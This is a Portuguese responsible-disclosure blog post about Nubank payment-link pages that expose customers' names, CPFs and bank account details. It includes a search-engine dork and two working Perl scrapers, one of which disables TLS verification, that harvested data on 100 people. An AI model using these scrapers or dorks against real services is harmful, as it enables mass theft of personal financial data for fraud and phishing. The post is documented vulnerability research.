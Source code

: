 ```yaml
---
layout: content
title: 'Um pequeno caso de scraping de dados pessoais expostos na web'
description: 'Durante a realização de uma pesquisa de segurança em aplicações mobile, foi identificado um recurso no aplicativo do Nubank que permite a criação e o envio de "links de cobrança" para múltiplos destinatários. Foi identificada uma vulnerabilidade nessa funcionalidade que  possibilitou mapear dados pessoais, como CPF, nome completo, número e agência da conta vários clientes.'
og_image: https://heitorgouvea.me/images/publications/nubank-scraping/google-dorks.png
---
```


Tabela de conteúdo:
- [Resumo](#sumario)
- [Descrição](#descrição)
- [Prova de conceito](#prova-de-conceito)
- [Impacto](#impacto)
- [Conclusão](#conclusão)
- [Referências](#referencias)

### Sumário

Durante a realização de uma pesquisa de segurança em aplicações mobile, foi identificado um recurso no aplicativo do Nubank que permite a criação e o envio de "links de cobrança" para múltiplos destinatários. Foi identificada uma vulnerabilidade nessa funcionalidade que  possibilitou mapear dados pessoais, como CPF, nome completo, número e agência da conta de vários clientes.

**DISCLAIMER**: A empresa responsável foi informada sobre todos os detalhes dessa pesquisa no menor tempo possível e respondeu de maneira ética e transparente, demonstrando atenção e comprometimento com a segurança da funcionalidade. Durante os testes realizados, não houve invasão ou violação de sistemas. Além disso, a empresa implementou algumas medidas corretivas para reduzir os riscos associados ao problema relatado. Recomendações adicionais foram fornecidas para mitigar a vulnerabilidade, porém a empresa optou por não implementá-las integralmente.

- Esta publicação também está dispoível em: [Espanhol](/2020/06/23/caso-de-scraping-de-dados-personales) e [Inglês](/2020/06/23/Scraping-personal-data-exposure-in-the-web);

---

### Descrição

Dentro do aplicativo do Nubank, existe um recurso denominado "Cobrar". Seu funcionamento consiste em:
1. preencher um valor (opcional);
2. clicar em "Confirmar";
3. um QR Code é gerado, e o usuário pode compartilhá-lo ou enviar a cobrança por meio de outros aplicativos, como o WhatsApp:

![](/images/publications/nubank-scraping/creating-a-link.png)

![](/images/publications/nubank-scraping/whatsapp-shared-link.png)


O conteúdo do QR Code é o mesmo link que pode ser compartilhado por aplicativos de mensagens. Quando esse link é aberto no navegador, o seguinte resultado é obtido:

![](/images/publications/nubank-scraping/personal-infos.png)

São expostos, sem qualquer tipo de controle, alguns dados do usuário que gerou o link, como: nome completo, CPF, número da conta bancária e agência. O único requisito para obter essas informações sensíveis[1] é possuir a URL.

A URL é gerada exclusivamente pelo cliente em seu aplicativo, sendo também de responsabilidade do cliente decidir como e com quem compartilhá-la.

Entretanto, essas URLs são indexadas por motores de busca, o que permite a utilização de dorks[2] para identificar mais URLs relacionadas a esse serviço. 

Dork para restringir a busca ao site principal do Nubank, onde as URLs contenham o padrão "/pagar/" e excluam resultados envolvendo o blog:

```text
site:nubank.com.br inurl:/pagar/ -blog
````

Resultado:

![](/images/publications/nubank-scraping/google-dorks.png)

Além disso, foi possível observar que alguns usuários estavam publicando essas URLs em canais públicos, como o Twitter. Um uso comum da funcionalidade seria para o recebimento de doações.

![](/images/publications/nubank-scraping/twitter-links.png)

---

### Prova de conceito

Para demonstrar o impacto do abuso dessa funcionalidade, foi criada uma prova de conceito. A primeira parte consiste na construção de um código capaz de utilizar um motor de busca para coletar o maior número possível de URLs. Foi desenvolvido, então, um scraper[3] utilizando o Bing:

```perl
#!/usr/bin/env perl

use 5.030;
use strict;
use warnings;
use WWW::Mechanize;
use Mojo::Util qw(url_escape);

sub main {
    my $dork = $ARGV[0];

    if ($dork) {
        $dork = url_escape($dork);

        my %seen  = ();
        my $mech = WWW::Mechanize -> new();

        $mech -> ssl_opts (verify_hostname => 0);

        for my $page (0 .. 10) {
            my $url = "https://wwww.bing.com/search?q=${dork}&first=${page}0";

            $mech -> get($url);

            my @links = $mech -> links();

            foreach my $link (@links) {
                $url = $link -> url();

                next if $seen{$url}++;

                if ($url =~ m/^https?/ && $url !~ m/bing|live|microsoft|msn/) {
                    print $url, "\n";
                }
            }
        }
    }
}

exit main();
```

Com esse código, foram coletadas 100 URLs válidas — o número foi limitado a 100 pois o intuito era apenas uma demonstração, por se tratar apenas de uma demonstração, mas poderia ser muito maior:

![](/images/publications/nubank-scraping/file-with-the-urls.png)

Após a coleta das URLs em um arquivo `.txt`, foi desenvolvido outro scraper para extrair os dados das páginas do Nubank:

```perl
#!/usr/bin/env perl

use 5.030;
use strict;
use warnings;
use Mojo::DOM;
use Mojo::UserAgent;

binmode(STDOUT, ":encoding(UTF-8)");

sub main {
    my $urls_file = $ARGV[0];

    if ($urls_file) {
        my $userAgent = Mojo::UserAgent -> new (
            agent => "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)"
        );
        
        open my $urls_filehandle, "<", $urls_file or die $!;

        while (<$urls_filehandle>) {
            chomp ($_);
            
            my $request = $userAgent -> get($_) -> result();

            if ($request -> is_success()) {
                my $account = $request -> dom -> find("tr td") -> map("text") -> join(",");

                $account =~ s/Nome,//
                && $account =~ s/CPF,//
                && $account =~ s/Banco,//
                && $account =~ s/Tipo da conta,//
                && $account =~ s/Agência,//
                && $account =~ s/Conta,//
                && $account =~ s/Agência Métodos,//;

                say $account;
            }
        }

        close ($urls_filehandle);
    }
}

exit main();
```

E então, o resultado obtido:

![](/images/publications/nubank-scraping/collect-with-names-cpfs.png)

CPF, nome completo, número da conta e agência de 100 pessoas, em apenas alguns minutos e com poucas linhas de código.

---

### Impacto

A possibilidade de um atacante abusar dessa funcionalidade disponível nos sistemas do Nubank é alta devido à facildade de exploração. Isso pode expor diversos usuários, vazando informações sensíveis, como demonstrado anteriormente. Além disso, um atacante qcom posse desses dados pode utilizá-los para aplicar golpes por meio de abordagens de engenharia social extremamente direcionadas.

---

### Conclusão

Esta análise, demosntra que um agente malicioso poderia implementar scrapers para mapear URLs de cobrança do Nubank e, posteriormente, coletar as informações pessoais presentes nessas páginas. O artigo apresentou uma PoC utilizando um motor de busca, mas há espaço para outras possibilidades, como a exploração de dados publicados em redes sociais (Twitter, Facebook, etc.). Esse cenário representa um risco real, podendo tornar clientes do Nubank em alvos de ataques de spear phishing e engenharia social.

---

### Referências

- [1] [https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure)
- [2] [https://en.wikipedia.org/wiki/Google_hacking](https://en.wikipedia.org/wiki/Google_hacking)
- [3] [https://en.wikipedia.org/wiki/Web_scraping](https://en.wikipedia.org/wiki/Web_scraping)
